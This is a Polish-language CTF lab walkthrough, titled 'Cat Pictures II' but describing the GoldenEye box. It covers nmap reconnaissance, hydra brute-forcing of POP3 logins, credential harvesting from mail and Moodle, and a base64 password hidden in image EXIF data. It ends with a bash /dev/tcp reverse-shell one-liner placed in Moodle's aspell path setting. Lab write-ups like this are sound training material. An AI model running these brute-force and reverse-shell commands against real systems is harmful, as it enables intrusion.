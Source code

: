 # Cat Pictures II
IP=10.10.63.124

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -p- 10.10.63.124
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-11 04:54 EDT
Nmap scan report for 10.10.63.124
Host is up (0.048s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
25/tcp    open  smtp
80/tcp    open  http
55006/tcp open  unknown
55007/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 529.90 seconds
```

Przeprowadźmy bardziej szczegółowy skan:

```
sudo nmap -p 25,80,55006,55007 -sC -sV 10.10.63.124
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-11 05:05 EDT
Nmap scan report for 10.10.63.124
Host is up (0.049s latency).

PORT      STATE SERVICE  VERSION
25/tcp    open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2018-04-24T03:22:34
|_Not valid after:  2028-04-21T03:22:34
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http     Apache httpd 2.4.7 ((Ubuntu))
|_http-title: GoldenEye Primary Admin Server
|_http-server-header: Apache/2.4.7 (Ubuntu)
55006/tcp open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) PIPELINING USER TOP UIDL AUTH-RESP-CODE RESP-CODES CAPA
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
55007/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: AUTH-RESP-CODE TOP STLS SASL(PLAIN) PIPELINING CAPA USER RESP-CODES UIDL
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.06 seconds
```

Zostały wykryte 4 porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Jest to strona nawiązująca do tytułu tego CTF'a. Sprawdzamy źródło strony:

![Source](img/Source.JPG)

Przechodzimy do skryptu terminal.js: 

![Terminal](img/Terminal.JPG)

Z ukrytej notatki otrzymujemy zakodowane hasło użytkownika Boris oraz kolejnego użytkownika - Natalya. Przechodzimy na stronę [CyberChef](https://gchq.github.io/CyberChef/) i dekoduejmy hasło:

![Cyber](img/Cyber.JPG)

```
boris:InvincibleHack3r
```

Przechodzimy do katalogu /sev-home/ i logujemy się za pomocą znalezionych danych do logowania:

![Login](img/Login.JPG)

Po zalogowaniu widzimy tajemniczą stronę:

![Sev](img/Sev.JPG)

W źródle strony znajdujemy notatkę, która potwierdza fakt istnienia dwóch użytkowników: Natalya i Boris

![Sup](img/Sup.JPG)

Próby zalogowania się na konto Borisa na innych serwisach zakończyły się niepowodzeniem. W związku z tym przeprowadzamy atak za pomocą hydry, w celu znalezienia innego hasła:

```
hydra -l Boris -P /usr/share/set/src/fasttrack/wordlist.txt 10.10.63.124 -s 55007 pop3
```

![Hydra](img/Hydra.JPG)

```
Boris:secret1!
```

Wykorzystujemy znalezione hasło, aby zalogować się do serwisu POP3 skonfigurowanego na porcie 55007, za pomocą narzędzia telnet:

```
telnet 10.10.63.124 55007
```

![Telnet](img/Telnet.JPG)

W serwisie znajdujemy wiadomości (emails). Dowiadujemy się z nich, że Natalya może złamać kody Borisa. Poznajemy też nową nazwę użytkownika - Xenia:

![RETR](img/RETR.JPG)

Kontynuujemy ataki za pomocą hydry, tym razem na użytkownika Natalya:

```
hydra -l Natalya -P /usr/share/set/src/fasttrack/wordlist.txt 10.10.63.124 -s 55007 pop3
```

![Hydra2](img/Hydra2.JPG)

```
Natalya:bird
```

Ponownie logujemy się do serwisu POP3 za pomocą narzędzia telnet:

![Telnet2](img/Telnet2.JPG)

Odczytujemy dostępne wiadomości, z których otrzymujemy dane do logowania użytkwonika Xenia oraz adres tajemniczej strony (severnaya-station.com/gnocertdir/):

![RETR2](img/RETR2.JPG)

```
xenia:RCP90rulez!
```

Dodajemy nowo poznaną stronę do pliku /etc/hosts:

![Su](img/Su.JPG)

Po przejściu na stronę widzimy, że jest to strona startowa Moodle:

![Moodle](img/Moodle.JPG)

Logujemy się do serwisu Moodle za pomocą znalezionych danych do logowania:

```
xenia:RCP90rulez!
```

![Moodle2](img/Moodle2.JPG)

Po przejściu w zakładkę wiadomości poznajemy nową nazwę użytkownika - Doak:

![Doak](img/Doak.JPG)

Przeprowadzamy atak za pomocą hydry, tym razem na użytkownika Doak:

```
hydra -l Doak -P /usr/share/set/src/fasttrack/wordlist.txt 10.10.63.124 -s 55007 pop3
```

![Hydra3](img/Hydra3.JPG)

```
Doak:goat
```

Ponownie logujemy się do serwisu POP3 za pomocą narzędzia telnet:

![Telnet3](img/Telnet3.JPG)

Odczytujemy dostępną wiadomość, z której otrzymujemy dane do logowania użytkownika dr_doak:

![RETR3](img/RETR3.JPG)

```
dr_doak:4England!
```

Logujemy się do serwisu Moodle:

![Moodle3](img/Moodle3.JPG)

W prywatnych plikach użytkownika dr_doak znajdujemy sekretną wiadomość skierowaną do James'a:

![Secret](img/Secret.JPG)

Pobieramy sekretną wiadomość:

![Secret2](img/Secret2.JPG)

```
/dir007key/for-007.jpg
```

Przechodzimy do ukrytej lokalizacji:

![007](img/007.JPG)

Pobieramy zdjęcie i rozpoczynamy analizę za pomocą narzędzia exiftool:

![Exiftool](img/Exiftool.JPG)

```
eFdpbnRlcjE5OTV4IQ==
```

W opisie zdjęcia widzimy zakodowaną wiadomość, którą dekodujemy przy użyciu [CyberChef'a](https://gchq.github.io/CyberChef/):

![Winter](img/Winter.JPG)

```
xWinter1995x!
```

Znaleziony ciąg znaków jest prawdopodobnie hasłem użytkownika admin. Spróbujmy zalgoować się do serwisu Moodle za pomocą znalezionych danych:

![Moodle4](img/Moodle4.JPG)

Przechodzimy kolejno do: Settings -> Site administration -> Server -> System paths:

![Paths](img/Paths.JPG)

W miejsce "Path to aspell" wstawiamy reverse shell'a:

```
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

Po zapisaniu zmian odpalamy nasłuchiwanie na wybranym porcie:
